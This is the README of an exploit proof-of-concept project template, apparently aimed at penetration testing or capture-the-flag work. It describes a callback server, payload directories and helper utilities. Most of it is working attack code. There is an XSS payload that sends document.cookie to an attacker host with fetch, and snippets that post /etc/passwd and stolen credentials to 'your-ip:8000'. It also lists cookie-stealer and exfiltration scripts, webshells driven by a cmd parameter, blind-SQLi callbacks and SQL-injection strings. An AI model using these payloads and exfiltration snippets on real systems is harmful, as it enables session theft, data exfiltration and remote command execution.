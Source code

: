 # {{ cookiecutter.project_name }}

**Target URL:** {{ cookiecutter.target_url }}

## Quick Start

```bash
# 1. Setup environment
make dev

# 2. Start callback server (terminal 1)
uv run {{ cookiecutter.project_slug }} --server

# 3. Run exploit (terminal 2)
uv run {{ cookiecutter.project_slug }} -t http://target.com
```

## Writing Your Exploit

Edit `src/{{ cookiecutter.project_slug }}/exploit.py`:

```python
from {{ cookiecutter.project_slug }}.utils.output import out

def run(args):
    target = args.target.rstrip('/')

    out.info("Testing target...")
    resp = requests.get(f"{target}/vulnerable-endpoint", verify=False)

    if "vulnerable" in resp.text:
        out.success("Target is vulnerable!")

        # Trigger callback to your server
        requests.get("http://your-ip:8000/success")
    else:
        out.error("Not vulnerable")
```

## Utilities Available

### Colored Output
```python
from {{ cookiecutter.project_slug }}.utils.output import out

out.success("Exploited!")
out.error("Failed")
out.info("Trying...")
out.warning("Slow connection")
```

### Encoding/Decoding
```python
from {{ cookiecutter.project_slug }}.utils.encoding import base64_encode, url_encode

payload = base64_encode("admin' OR '1'='1")
encoded = url_encode("<script>alert(1)</script>")
```

### Timing Utilities
```python
from {{ cookiecutter.project_slug }}.utils.timing import time_ms, identify_timestamp, epoch_range

# Generate timestamp
token = time_ms()

# Identify unknown timestamp
info = identify_timestamp("1735689600000")
print(info['type'])  # epoch_milliseconds
print(info['date'])  # 2025-01-01 00:00:00

# Generate epoch range - now accepts epoch timestamps directly!
timestamps = epoch_range(1735689600, 1735776000, step_minutes=60)  # Using epoch
timestamps = epoch_range('2025-01-01 00:00:00', '2025-01-02 00:00:00')  # Using strings
```

### Process Execution
```python
from {{ cookiecutter.project_slug }}.utils.process import run

# Run binary
stdout, stderr, code = run("./exploit")

# With input
stdout, stderr, code = run("./vulnerable", input_data=payload)
```

## Server Usage

The built-in server (`servers/server.py`):
- **Serves payloads** from `payloads/` directory
- **Logs all requests** to `logs/server.ndjson`
- **CORS enabled** for XSS testing

### Start Server
```bash
# Via CLI (port 8000)
uv run {{ cookiecutter.project_slug }} --server

# Custom port
uv run {{ cookiecutter.project_slug }} --server --port 8080

# Direct execution
uv run python servers/server.py -p 8080
```

### Check Logs
```bash
# Watch in real-time
tail -f logs/server.ndjson | jq .

# Search for specific callbacks
grep "xss" logs/server.ndjson | jq .
```

## Included Payloads

### XSS (`payloads/xss/`)
- `examples.txt` - Copy-paste XSS payloads
- `steal-cookie.js` - Cookie stealer
- `steal-all.js` - Full data exfiltration

Example:
```html
<img src=x onerror="fetch('http://your-ip:8000/xss?c='+btoa(document.cookie))">
```

### Webshells (`payloads/shells/`)
- `cmd.jsp` - Java servers
- `cmd.aspx` - .NET/IIS servers
- `cmd.php` - PHP servers

All shells use same interface:
```python
resp = requests.get("http://target/shell.jsp?cmd=whoami")
print(resp.text)
```

## Common Code Snippets

### HTTP Requests
```python
import requests
requests.packages.urllib3.disable_warnings()  # Disable SSL warnings

session = requests.Session()
session.verify = False  # Skip SSL verification
session.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
```

### Blind Exploitation Callbacks
```python
# SQLi boolean-based
if "admin" in result:
    requests.get(f"http://your-ip:8000/sqli?char={char}&pos={pos}")

# Time-based confirmation
import time
start = time.time()
make_request()
if time.time() - start > 5:
    requests.get(f"http://your-ip:8000/blind?confirmed=true")
```

### Data Exfiltration
```python
# POST JSON data
stolen_data = {"username": "admin", "password": "found_it"}
requests.post('http://your-ip:8000/exfil', json=stolen_data)

# POST file contents
with open('/etc/passwd', 'r') as f:
    requests.post('http://your-ip:8000/file', data=f.read())
```

## CLI Options

```bash
{{ cookiecutter.project_slug }} --help

Options:
  -t, --target URL     Target URL (default: {{ cookiecutter.target_url }})
  -p, --proxy URL      HTTP proxy for requests
  --threads N          Number of threads
  -v, --verbose        Verbose output
  --server             Start callback server
  --port N             Server port (default: 8000)
```

## Files

- `src/{{ cookiecutter.project_slug }}/exploit.py` - **Main exploit code** (edit this!)
- `src/{{ cookiecutter.project_slug }}/utils/` - Helper utilities
- `servers/server.py` - HTTP callback server
- `payloads/` - XSS payloads and webshells
- `logs/server.ndjson` - Server request logs

---

Created: {{ cookiecutter.full_name }}
Template: [cookiecutter-poc-uv](https://github.com/kwkeefer/cookiecutter-poc-uv)